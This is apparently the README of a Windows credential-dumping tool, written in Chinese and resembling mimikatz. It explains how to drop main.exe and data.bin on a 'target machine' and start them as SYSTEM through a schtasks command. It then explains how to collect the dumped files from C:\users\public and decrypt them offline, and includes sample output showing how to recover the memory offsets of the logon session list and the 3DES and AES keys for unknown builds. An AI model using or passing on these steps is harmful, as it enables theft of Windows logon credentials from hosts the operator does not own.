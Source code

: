 将main.exe和data.bin放在目标机器的同一目录下，然后执行main.exe即可



如果目标机器是windows7或者windows server 2008，需要通过计划任务的方式启动，此时需要将data.bin放在C:\windows\system32下



创建计划任务并执行：

```
schtasks /create /tn MyApp /tr "C:\Users\Administrator\Desktop\mimikatz\main.exe" /sc once /sd 01/03/2003 /st 00:00 /ru system /f
  
schtasks /run /tn MyApp
```





运行完成后会在C:\users\public目录下生成以下四个文件



```
3iaad 
aiaad 
ili6ao
kiaad 
```

拖回来和offline_decryptor.exe放在同一目录下执行offline_decryptor.exe即可





# 注意事项

由于本程序采用硬编码偏移的方式定位logonsessionlist、3desky和aeskey，因此第一次运行大概率会得到以下输出：

```
[*] version: 10.0.19041.2913
build version: 19041
[-] unknown version or no md5 matched, abort...
file copied to public folder '9at2',please retrieve it
```



此时需要把C:\users\public\9at2文件拖回来，本地进行分析获取以上三个变量的偏移量
